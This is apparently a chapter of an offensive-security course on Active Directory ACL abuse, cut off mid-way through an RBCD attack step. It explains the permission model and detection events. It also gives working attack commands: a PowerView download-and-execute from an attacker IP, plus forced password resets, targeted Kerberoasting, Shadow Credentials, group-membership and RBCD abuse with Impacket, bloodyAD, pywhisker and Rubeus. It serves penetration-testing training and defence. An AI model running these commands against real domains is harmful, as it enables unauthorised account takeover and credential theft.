








**Level:** Expert · **Track:** Penetration Testing · **Read time:** 290 min

This is Chapter 9 of the Active Directory attack notebook — Notebook 18. Chapter 8 dissected Kerberos delegation, and it ended on a primitive that quietly straddles two worlds: Resource-Based Constrained Delegation is *configured entirely by writing a single attribute* — `msDS-AllowedToActOnBehalfOfOtherIdentity` — on a computer object. Whether you *can* write that attribute is not a Kerberos question at all. It is an **access-control** question, decided by the object's DACL. That is the bridge into this chapter.

Almost every "impossible" AD escalation you will ever see in BloodHound — `user → GenericAll → group → GenericAll → user → DCSync → Domain Admin` — is a chain of **ACL abuses**. Kerberoasting and delegation get the headlines, but in real engagements the shortest path to Domain Admin is far more often a misconfigured permission on an object than a crackable service ticket. An overworked admin delegates "reset passwords for the helpdesk group" a little too broadly; a legacy application service account was granted `GenericAll` on an OU a decade ago; a nested group membership means a contractor's account effectively owns a Tier-0 group. None of that is a bug in Windows. It is Windows working exactly as designed, on top of permissions nobody audited.

This chapter teaches you to *read* the Active Directory permission model the way the operating system does, and then to weaponise every dangerous right in it. We start at the absolute bottom — what a security descriptor is, byte for byte in concept — and build up through DACLs, ACEs, SIDs, object-type GUIDs, and inheritance, until the cryptic output of `Get-DomainObjectAcl` reads like plain English. Then we turn each right into a repeatable attack, chain them the way BloodHound does, and finish with a full worked lab and a consolidated detection-and-defence section.

## Why This Matters

ACL abuse is the connective tissue of AD attacks. Once you understand it, BloodHound stops being a magic oracle that spits out paths and becomes a tool whose every edge you can reproduce by hand — which matters enormously when SharpHound is blocked, when an edge is stale, or when you must explain to a client *exactly* why their intern can become Domain Admin. It is also the quietest form of persistence in the entire AD arsenal: a single hidden ACE on the domain root grants silent DCSync forever, survives password resets, and looks like nothing in most logs.

## Who This Is For

You should have finished the earlier AD chapters — the assumed-breach mindset (Chapter 1), BloodHound/SharpHound (Chapter 2), enumeration with PowerView (Chapter 3), and ideally the delegation chapter (Chapter 8), since RBCD reappears here as an ACL primitive. You do not need to be a Windows internals expert; we rebuild the security model from scratch. Everything here is strictly for authorised engagements against systems you have written permission to test.

---

## Part 1: The Windows Security Model — Securable Objects and Security Descriptors

Everything securable in Windows — a file, a registry key, a process, a service, and crucially **every object in Active Directory** (users, computers, groups, OUs, GPOs, the domain object itself) — carries a **security descriptor** (SD). The security descriptor is the single structure that answers the question "who is allowed to do what to me?". When any principal (a user, a computer account, a service) tries to act on an object, the Windows access-check routine (`AccessCheck`) compares the principal's access token against that object's security descriptor and returns *granted* or *denied*.

A security descriptor has four meaningful parts for our purposes:

| Component | Full name | What it holds | Attacker interest |
|-----------|-----------|---------------|-------------------|
| **Owner** | Owner SID | The SID of the object's owner | The owner can *always* rewrite the DACL, regardless of the DACL. Owning an object = controlling it. |
| **Group** | Primary group SID | POSIX-era legacy, largely vestigial in AD | None practically |
| **DACL** | Discretionary Access Control List | The ordered list of ACEs granting/denying rights | **This is the battlefield.** Every abusable right lives here. |
| **SACL** | System Access Control List | Audit ACEs — what to log | Blue-team relevant; drives event 4662 |

In Active Directory the security descriptor is stored on each object in the `nTSecurityDescriptor` attribute. That attribute is a binary blob in **SDDL**-representable form (Security Descriptor Definition Language). You will rarely read the raw bytes; PowerView, `dacledit.py`, and BloodHound parse it for you. But you must understand what they are parsing.

**Discretionary** is the key word in DACL. It means the *owner* of the object gets to decide (at their discretion) who has access. That single design decision is why AD ACL abuse exists: if you can become the owner, or if you can edit the DACL, you decide who has access — including granting yourself everything.



**Security relevance:** the access check walks ACEs **in order**, and an explicit **Deny** ACE that matches short-circuits to denied before any later Allow is considered. Canonical DACL ordering puts Deny ACEs before Allow ACEs, which is why a hand-crafted "deny everyone" ACE placed at the top is a classic (noisy) way to lock an object — and why defenders sometimes protect Tier-0 objects that way. As an attacker you mostly care about *Allow* ACEs that name your SID (directly or via a group you are in).

---

## Part 2: Anatomy of an ACE — the Unit of Abuse

An ACL is just an ordered list of **ACEs** (Access Control Entries). Each ACE is a small record that says, in effect, "this **trustee** (SID) is **allowed/denied** this **access mask**, optionally scoped to this **object type**, and this ACE **inherits** (or not) to children."

There are several ACE types. Two matter constantly in AD:

- **`ACCESS_ALLOWED_ACE`** — a plain "SID X is allowed access-mask M" with no object-type scoping. Grants the mask over the *whole* object.
- **`ACCESS_ALLOWED_OBJECT_ACE`** — the AD-specific variant that adds two GUIDs: an **ObjectType** GUID (which property, property-set, extended right, or child-object class this ACE applies to) and an **InheritedObjectType** GUID (which child object classes inherit it). This is how AD expresses fine-grained rights like "may write *only* the `member` attribute" or "may perform *only* the DS-Replication-Get-Changes extended right."

The access mask is a 32-bit field. The bits that matter to an attacker, and their SDDL/PowerView names:

| Right (mask) | SDDL | Meaning | Why it's abusable |
|--------------|------|---------|-------------------|
| `GenericAll` | `GA` | Full control — every right below | Total object takeover |
| `GenericWrite` | `GW` | Write all non-protected attributes | Set SPNs (targeted Kerberoast), write RBCD, edit scripts |
| `WriteOwner` | `WO` | Change the object's Owner | Make yourself owner → then rewrite DACL |
| `WriteDacl` | `WD` | Rewrite the object's DACL | Grant yourself GenericAll |
| `WriteProperty` | `WP` | Write a specific attribute (with ObjectType GUID) or all (without) | Add group members, set `servicePrincipalName`, set RBCD attr |
| `Self` / `ValidatedWrite` | `SW` | Perform a validated write (e.g. self-membership, validated SPN/DNS) | `Self-Membership` = add self to group |
| `ExtendedRight` / `AllExtendedRights` | `CR` | Perform control-access (extended) rights (with GUID) or all | DCSync, force password reset, read LAPS |
| `ReadProperty` | `RP` | Read a specific attribute | Read `ms-Mcs-AdmPwd` (LAPS), gMSA blob |
| `CreateChild` / `DeleteChild` | `CC`/`DC` | Create/delete child objects (with class GUID) | Add computer accounts to an OU, DCShadow prep |
| `Delete` / `DeleteTree` | `SD`/`DT` | Delete the object / subtree | Destructive; rarely the goal |

The single most important mental model: **the abusable rights fall into two categories.** Some are *whole-object* rights (GenericAll, GenericWrite, WriteOwner, WriteDacl) that hand you broad control. Others are *scoped* object-rights, where the abuse depends entirely on the **ObjectType GUID** — the same `ExtendedRight` mask means "reset this user's password" if the GUID is `00299570-...` (User-Force-Change-Password) but means "replicate the whole directory" if the GUID is `1131f6aa-...` (DS-Replication-Get-Changes). Reading the GUID is the difference between a nuisance and a domain takeover.



### The GUIDs you must recognise

You do not memorise all of them, but a handful appear in nearly every engagement. Keep this table close:

| GUID (rightsGuid / schemaIDGUID) | Name | Abuse |
|---|---|---|
| `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` | DS-Replication-Get-Changes | Half of DCSync |
| `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` | DS-Replication-Get-Changes-All | Other half of DCSync (secrets) |
| `89e95b76-444d-4c62-991a-0facbeda640c` | DS-Replication-Get-Changes-In-Filtered-Set | Sometimes needed for RODC-filtered attrs |
| `00299570-246d-11d0-a768-00aa006e0529` | User-Force-Change-Password | Reset a user's password without knowing the old one |
| `bf9679c0-0de6-11d0-a285-00aa003049e2` | Member (attribute) | WriteProperty here = add/remove group members |
| `f3a64788-5306-11d1-a9c5-0000f80367c1` | Validated-SPN | ValidatedWrite here = set servicePrincipalName |
| `bf967a86-0de6-11d0-a285-00aa003049e2` | Computer (class) | CreateChild here = create computer objects in an OU |
| `3f78c3e5-f79a-46bd-a0b8-9d18116ddc79` | ms-Mcs-AdmPwd (LAPS) | ReadProperty here = read local admin password |

**Blue team usage:** if you ever see a *non-DC* principal granted an ACE with ObjectType `1131f6aa` **and** `1131f6ad` on the domain head, that is a DCSync backdoor and one of the loudest indicators of compromise in AD. We return to detecting exactly this in Part 12.

---

## Part 3: SIDs, Well-Known Principals, and Inheritance

An ACE's trustee is a **SID** (Security Identifier), not a name. `S-1-5-21-<domain>-<RID>` identifies a domain principal; the trailing RID tells you what it is (RID 500 = built-in Administrator, 512 = Domain Admins, 519 = Enterprise Admins, 502 = krbtgt). There are also **well-known SIDs** you must recognise in ACLs because they massively widen the blast radius of a right:

| SID | Principal | Why it matters in an ACE |
|-----|-----------|--------------------------|
| `S-1-1-0` | Everyone | Literally all authenticated + anonymous depending on config |
| `S-1-5-11` | Authenticated Users | *Every* domain account — a right here is universal |
| `S-1-5-7` | Anonymous | Pre-auth; dangerous if it appears at all |
| `S-1-5-9` | Enterprise Domain Controllers | Legitimately holds the replication rights; anything else holding them is suspect |
| `S-1-5-32-544` | Builtin\Administrators | Local admin on the box |
| `...-512 / -519 / -518` | Domain Admins / Enterprise Admins / Schema Admins | Tier-0 |

**Red team usage:** an ACE granting a dangerous right to `Authenticated Users` or `Everyone` is a *domain-wide* primitive — any account you compromise, however low, inherits it. These are gold and BloodHound flags them as edges from the `Everyone`/`Authenticated Users`/`Domain Users` nodes.

### Inheritance — where "who set this?" gets murky

AD DACLs support **inheritance**. An ACE placed on an OU (or the domain object) with the "inherit to descendants" flag propagates to child objects. On the child, that ACE appears with the **INHERITED** flag set. This is how "Account Operators can manage users in the Staff OU" is expressed once, at the OU, and applies to every user beneath it.

Two consequences matter:

1. When you enumerate a user's DACL and see a dangerous ACE, check whether it is **inherited** (came from a parent OU) or **explicit** (set directly on the object). Inherited dangerous ACEs usually mean the misconfiguration lives on the OU and affects *many* objects — a bigger finding.
2. **AdminSDHolder / SDProp** deliberately *breaks* inheritance on protected (Tier-0) accounts. We cover this in Part 12; for now know that "protected groups" (Domain Admins members, etc.) get their DACL overwritten every 60 minutes from a template object, and inheritance is disabled on them (`adminCount=1`). ACL abuse against those objects is harder and shorter-lived — SDProp reverts your ACE.



---

## Part 4: Enumerating ACLs — PowerView From Scratch

Before we abuse anything we must *see* the ACLs. The primary Windows-side tool is **PowerView**.

### What PowerView is

PowerView is a single PowerShell script (part of the PowerSploit / GhostPack lineage, now maintained across several forks) that wraps LDAP queries and Win32 calls into convenient cmdlets for AD reconnaissance and abuse. It needs no installation — you import the `.ps1` and its functions are available. It runs as whatever user's context the PowerShell session has, using integrated Windows auth over LDAP, so it is quiet-ish (it looks like normal LDAP traffic) but the script itself is heavily signatured by AV/EDR, so in practice you obfuscate it, run it in-memory, or use the C# equivalent (SharpView) or the cross-platform Linux tooling below.

Load it in-memory to avoid touching disk:

```powershell
# In-memory load (no file written to disk)
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/PowerView.ps1')

# Or from a local copy in an authorised lab:
. .\PowerView.ps1
```

### The core enumeration cmdlet: `Get-DomainObjectAcl`

```powershell
Get-DomainObjectAcl -Identity "helpdesk" -ResolveGUIDs
```

`-Identity` names the target object (sAMAccountName, DN, SID, or GUID). `-ResolveGUIDs` is essential — without it you get raw ObjectType GUIDs; with it, PowerView translates them into human names like `User-Force-Change-Password`. Sample output for a user who has been delegated password-reset rights:

```
AceQualifier           : AccessAllowed
ObjectDN               : CN=helpdesk,OU=IT,DC=corp,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-1004336348-1177238915-682003330-1608
SecurityIdentifier     : S-1-5-21-1004336348-1177238915-682003330-2601
AceType                : AccessAllowedObject
AceFlags               : ContainerInherit
IsInherited            : False
```

Read it right-to-left: `SecurityIdentifier` (RID 2601 — *who* is granted) has `ExtendedRight` scoped to `User-Force-Change-Password` over `ObjectSID` (RID 1608 — *whom* they can reset). If RID 2601 is a user you control, you can reset RID 1608's password.

The most useful hunting pattern is to flip the question: *"which objects can the principals I control write to?"* PowerView helps you resolve your own SID and group SIDs, then filter:

```powershell
# Resolve who I am + my groups
$me = Get-DomainUser -Identity (whoami /upn) -Properties objectsid,memberof

# Find every ACE across the domain where a dangerous right is granted to
# a SID in my token, resolving GUIDs so we can read the right names.
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -ResolveGUIDs |
  ? { $_.ActiveDirectoryRights -match 'GenericAll|GenericWrite|WriteOwner|WriteDacl|WriteProperty|Self|ExtendedRight' } |
  ? { $_.SecurityIdentifier -in $myTokenSids } |
  Select ObjectDN, ActiveDirectoryRights, ObjectAceType, SecurityIdentifier
```

Helpful companions:

- `Convert-SidToName S-1-5-21-...-2601` — turn a SID into a name.
- `Get-DomainObjectAcl -Identity 'DC=corp,DC=local' -ResolveGUIDs | ? {$_.ObjectAceType -match 'Replication-Get-Changes'}` — hunt DCSync ACEs on the domain head.
- `Find-InterestingDomainAcl -ResolveGUIDs` — PowerView's built-in "show me ACEs where the trustee is a non-default, non-privileged principal", i.e. suspicious delegated rights across the domain.

### Enumerating from Linux — you rarely have a Windows box

On a modern engagement you are often on Kali with just credentials. Two workhorses:

**Impacket `dacledit.py`** reads and writes DACLs over LDAP:

```bash
# Read the DACL of the target, showing who has what
dacledit.py -action read -target "helpdesk" \
  -principal '' corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10
```

**bloodyAD** is a fast, purpose-built LDAP abuse tool:

```bash
# Show ACEs where lowpriv has write rights across the domain
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  get writable --detail
```

Sample `bloodyAD get writable` output that immediately reveals a path:

```
distinguishedName: CN=IT Support,OU=Groups,DC=corp,DC=local
permission: WRITE
attribute: member; WRITE
OWNER: WRITE
```

That single block says: your user can write the `member` attribute of the *IT Support* group (add yourself) **and** you own it. Two independent takeover primitives on one object.

**And BloodHound/SharpHound**, covered in Chapter 2, is the tool that turns thousands of these ACEs into a graph and computes the *shortest path* from your foothold to Domain Admin. Everything in the rest of this chapter is "how do I manually walk one edge that BloodHound drew for me."

---

## Part 5: Abusing `ForceChangePassword` — Resetting a User

The simplest ACL win. If you hold the **User-Force-Change-Password** extended right (or `GenericAll`) over a user, you can set their password without knowing the current one. Immediately useful when the target is a service account, a more privileged user, or an account that is a member of an interesting group.

**PowerView (Windows):**

```powershell
$newpass = ConvertTo-SecureString 'Str0ngP@ss!2024' -AsPlainText -Force
Set-DomainUserPassword -Identity 'svc_backup' -AccountPassword $newpass -Verbose
```

Expected verbose output:

```
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'svc_backup'
VERBOSE: [Set-DomainUserPassword] Password for user 'svc_backup' successfully reset
```

**Impacket / net (Linux):**

```bash
# Using Impacket's changepasswd (force reset via SAMR / LDAP)
changepasswd.py -reset corp.local/svc_backup@10.10.10.10 \
  -altuser corp.local/lowpriv -altpass 'Password123!' -newpass 'Str0ngP@ss!2024'

# Or bloodyAD, cleanest for LDAP:
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  set password svc_backup 'Str0ngP@ss!2024'
```

**Operational caution — this is destructive and loud.** Resetting a live account's password breaks that user/service and generates event **4724** (an attempt was made to reset an account's password). On engagements prefer this against dormant service accounts, or use a *targeted Kerberoast* instead (Part 6) which is far quieter. If you must reset a real account, note the value so you can restore it, and warn the client.

**Bug bounty / CTF angle:** on HackTheBox/TryHackMe AD boxes this is one of the most common intended paths — you land as a helpdesk-tier user who has `ForceChangePassword` over a more privileged account (e.g. HTB *Forest*/*Sauna*-style chains), reset it, then `evil-winrm` in.

---

## Part 6: `GenericWrite` / `GenericAll` on a User — Targeted Kerberoast & Shadow Credentials

`GenericWrite` on a user does *not* let you reset their password (that is a control/validated right), but it lets you write their attributes — which is enough for two excellent, quieter takeovers.

### 6a. Targeted Kerberoasting (write an SPN)

If a user has no SPN, write one to `servicePrincipalName`. That makes the account Kerberoastable (Chapter 4): request a service ticket, crack it offline, recover the plaintext — *without touching their password*. Then remove the SPN to clean up.

```powershell
# Add a bogus SPN so the account becomes Kerberoastable
Set-DomainObject -Identity 'svc_sql' -Set @{serviceprincipalname='nonexistent/ATTACK'} -Verbose
# Request + roast (Rubeus)
Rubeus.exe kerberoast /user:svc_sql /nowrap
# ...crack the returned $krb5tgs$ hash offline with hashcat -m 13100...
# Cleanup
Set-DomainObject -Identity 'svc_sql' -Clear serviceprincipalname -Verbose
```

Linux equivalent:

```bash
# Set SPN via LDAP then roast with Impacket
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  set object svc_sql servicePrincipalName -v 'nonexistent/ATTACK'
GetUserSPNs.py corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10 -request-user svc_sql
```

This is superior to a password reset: **it does not lock the user out** and it recovers the real password. The trade-off is that it only works if the password is crackable.

### 6b. Shadow Credentials (write `msDS-KeyCredentialLink`)

The modern favourite. If the domain supports PKINIT (a KDC with a certificate — true in most modern domains, especially any with AD CS), you can add a *key credential* to the target's `msDS-KeyCredentialLink` attribute. This attribute is where Windows Hello for Business stores public keys that map to an account. Add your own generated key pair, then authenticate as the target via PKINIT and pull their NT hash — no password change, fully reversible.

```bash
# pywhisker adds an attacker-controlled key credential to the target
pywhisker.py -d corp.local -u lowpriv -p 'Password123!' \
  --target svc_sql --action add --dc-ip 10.10.10.10
# outputs a .pfx and password. Then PKINIT with gettgtpkinit / certipy:
gettgtpkinit.py -cert-pfx <file>.pfx -pfx-pass <pass> corp.local/svc_sql svc_sql.ccache
export KRB5CCNAME=svc_sql.ccache
getnthash.py -key <AS-REP-key> corp.local/svc_sql   # recover NT hash via U2U
```

`Whisker.exe` is the Windows/C# equivalent (`Whisker.exe add /target:svc_sql`).

**Red team usage:** Shadow Credentials is preferred over ForceChangePassword whenever PKINIT is available because it is reversible, does not disrupt the account, and is quieter (no 4724). **Blue team usage:** monitor writes to `msDS-KeyCredentialLink` (event 5136 on that attribute) — a KeyCredentialLink appearing on a service account that has never used Windows Hello is a strong compromise signal.



---

## Part 7: Rights Over Groups — `AddMember`, `WriteProperty(member)`, `Self`

Groups are the fastest privilege jump in AD because group membership is *transitive*: add yourself to `IT Support`, and if `IT Support` is nested inside `Server Admins` which is nested inside... you inherit everything up the chain. The relevant rights over a group object:

- `GenericAll` / `GenericWrite` — write any attribute, including `member`.
- `WriteProperty` scoped to the **Member** attribute GUID (`bf9679c0-...`) — write *only* the membership. This is exactly what a delegated "manage this group" permission grants.
- `Self` / `Self-Membership` (`AllowedToAct`-style validated write) — add/remove *only yourself*. Common for self-service groups.

Adding yourself:

```powershell
# PowerView
Add-DomainGroupMember -Identity 'Server Admins' -Members 'lowpriv' -Verbose
# Confirm
Get-DomainGroupMember -Identity 'Server Admins' | Select MemberName
```

```bash
# bloodyAD
bloodyAD --host 10.10.10.10 -d corp.local -u lowpriv -p 'Password123!' \
  add groupMember 'Server Admins' lowpriv

# Impacket net.py
net.py corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10 \
  group -name 'Server Admins' -user lowpriv -add
```

Expected confirmation and the event it fires:

```
[+] Adding user: lowpriv to group: Server Admins result: OK
```

Domain Controller logs event **4728** ("A member was added to a security-enabled global group"). **Clean up** by removing yourself when done (`Remove-DomainGroupMember`), which fires 4729.

**Nested-group gotcha:** if the target group is a **protected group** (Domain Admins, Enterprise Admins, Account Operators, Backup Operators, etc.), AdminSDHolder/SDProp will *not* revert your *membership* (SDProp fixes DACLs, not membership) — but these groups are heavily monitored, and membership grants are the single most-alerted event in any SOC. Prefer jumping into a *non-protected* group that nonetheless has strong effective rights (e.g. a group with local admin on a Tier-0 server, or a group holding DCSync).

**CTF angle:** many boxes are solved by `WriteProperty(member)` on a group that has WinRM/local-admin on the next host — e.g. adding yourself to `Remote Management Users` then `evil-winrm`.

---

## Part 8: Rights Over Computers — RBCD and LAPS

Computer objects are accounts too, and rights over them unlock two of the strongest primitives in modern AD.

### 8a. RBCD from a computer-object write (the ACL to delegation bridge)

If you have `GenericWrite`/`GenericAll`/`WriteProperty` over a **computer** object, you can write its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute — configuring Resource-Based Constrained Delegation *inbound* to that computer. You point it at a computer account **you control**, then use S4U2Self+S4U2Proxy to impersonate *any* user (e.g. `Administrator`) to services on the target — yielding a SYSTEM shell. Chapter 8 covered the Kerberos mechanics; here is the ACL-driven setup.

You need a controlled computer account. If `ms-DS-MachineAccountQuota` > 0 (default 10), any domain user can create one:

```bash
# 1. Create a computer account we control (uses default MachineAccountQuota)
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'Attack123!' \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10

# 2. Write RBCD on the TARGET computer, delegating to ATTACKPC$
rbcd.py -delegate-to 'TARGET$' -delegate-from 'ATTACKPC$' -action write \
  corp.local/lowpriv:'Password123!' -dc-ip 10.10.10.10

# 3. Abuse S4U to impersonate Administrator to CIFS on the target
